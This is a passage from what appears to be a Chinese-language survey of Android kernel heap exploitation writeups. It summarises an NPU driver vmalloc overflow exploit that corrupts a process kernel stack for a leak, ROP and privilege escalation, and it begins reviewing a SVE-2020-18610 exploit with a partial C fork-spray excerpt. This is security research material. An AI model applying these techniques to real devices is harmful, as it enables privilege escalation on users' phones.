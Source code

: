 [![](https://github.com/hac425xxx/heap-exploitation-in-real-world/raw/master/images/unnamed-2222.png)](/hac425xxx/heap-exploitation-in-real-world/blob/master/images/unnamed-2222.png)

然后访问 `/proc/vmallocinfo` 就可以看到 `ION buffer` 的后面跟着一些 内核栈。

[![](https://github.com/hac425xxx/heap-exploitation-in-real-world/raw/master/images/image-20211009232212150.png)](/hac425xxx/heap-exploitation-in-real-world/blob/master/images/image-20211009232212150.png)

然后就通过修改内核栈里面的数据，实现了信息泄露和 ROP.

**小结**

作者的思路非常清晰，拿到一个 vmalloc 堆的越界写漏洞，首先就是寻找 target obj，最终选择修改同处于 vmalloc 栈中的 进程内核栈 来进行提权。

在进行堆布局时作者一开始计划采用他之前在 IOS 上经常使用的布局方式（占位式布局），不过由于 `vmalloc` 区域在释放的时候采取的延时释放机制，作者放弃了这种方式，而是选用了相对比较直接的布局方式，即先填充内存碎片，然后分配 vuln obj， 然后分配 target obj，最后触发漏洞即可。

为了进行堆布局，作者首先是分析了 npu 驱动本身是否存在 vmalloc 区域的内存控制原语，最后是用的 binder 驱动中的逻辑完成的布局，不过这种首先从相对熟悉的代码中搜索需要的东西的思路也值得借鉴。

### [](#galaxys-meltdown---exploiting-sve-2020-18610)[Galaxy's Meltdown - Exploiting SVE-2020-18610](https://github.com/vngkv123/articles/blob/main/Galaxy's%20Meltdown%20-%20Exploiting%20SVE-2020-18610.md)

这篇文章的的利用思路和 p0 的思路差不多，不过这里没有采取复杂的内存布局策略，而是先用 fork 喷射大量的内核栈，然后分配 ION buffer ，然后再次分配大量内核栈，最后就可以实现布局。

```
...
  
atomic_int *wait_count;

int parent_pipe[2];
int child_pipe[2];
int trig_pipe[2];

void *read_sleep_func(void *arg){
    atomic_fetch_add(wait_count, 1);
    syscall(__NR_read, trig_pipe[0], 0x41414141, 0x13371337, 0x42424242, 0x43434343);

    return NULL;
}

...
  
int main(int argc, char *argv[]) {
  	...
    pipe(parent_pipe);
    pipe(child_pipe);
    pipe(trig_pipe);
  	...
    *wait_count = 0;
    int par_pid = 0;
    if (!(par_pid = fork())) {
        for (int i = 0; i < 0x2000; i++) {
            int pid = 0;
            if (!(pid = fork())){
                read_sleep_func(NULL);
                return 0;
            }
        }
        return 0;
    }
  	...
    if(leak(0xeec8) != 0x41414141){
        write(trig_pipe[1], "A", 1); // child process kill
        for (int i = ion_fd; i < 0x3ff; i++) {
```